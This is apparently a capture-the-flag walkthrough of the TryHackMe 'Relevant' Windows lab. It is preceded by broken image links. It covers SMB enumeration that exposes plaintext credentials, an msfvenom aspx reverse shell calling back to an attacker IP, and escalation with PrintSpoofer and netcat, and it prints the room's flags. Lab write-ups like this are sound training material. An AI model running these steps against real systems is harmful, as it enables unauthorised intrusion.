







# Relevant [relevant.thm]
> edit /etc/hosts file to set the ip to hostname

## recon

- nmap scan
	- scanned all `-p-`
	- found __80,135,139,445,3389,49663,49667,49669__ open ports out of which _80, 49663_ runs _http_
	- os: ` Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)`
	- seems like we can get guest/user privileges through __smb__

- on visiting port 80 (via browser) found this:

 

## hacking

- browsing smb via __smbclient__ (`smbclient -L 10.10.240.89 -U guest` > prompted password > enter blank):
> how to use [reference](https://unix.stackexchange.com/questions/339536/is-it-possible-to-browse-samba-resources-in-command-line)

- didn't have access to `ADMIN$` and `C$`, then got access to `IPC$` but nothing there

- checked the last _shared foldar_ `nt4wrksv` (`smbclient //10.10.240.89/nt4wrksv -U guest`), & found `passwords.txt` file (downloaded using `mget`)

- file contains credentials encoded in base64

	- found two users (& their passwords)
	- `Bob - !P@$$W0rD!123` & `Bill - Juw4nnaM4n420696969!$$$`

- on p49663 we can access _passwords.txt_, found `nt4wrksv` from gobuster scan

	- `http://10.10.191.233:49663/nt4wrksv/passwords.txt`)

- created `.aspx` reverse shell (`msfvenom -p windows/x64/shell_reverse_tcp lhost=10.18.116.142 lport=443 -f aspx > relevant.aspx`)

- uploaded reverse shell via smb

- visit `http://10.10.191.233:49663/nt4wrksv/relevant.aspx`
- got initial access to the system

- got `THM{fdk4ka34vk346ksxfr21tg789ktf45}` in `c:\Users\Bob\Desktop\user.txt`

- testing `whoami /priv`

- seems like the `SeImpersonatePrivilege` is weak/vuln
- upload [nc.exe](https://github.com/int0x33/nc.exe/) to get back root shell
- upload [printspoofer.exe](https://github.com/dievus/printspoofer) get higher priv
- setup listener `nc -lnvp 443` & execute `c:\inetpub\wwwroot\nt4wrksv\PrintSpoofer.exe -i -c cmd`

- got _NT Autority_ (windows root equivalent)

- got `THM{1fk5kf469devly1gl320zafgl345pv}` in `c:\Users\Administrator\Desktop\root.txt`

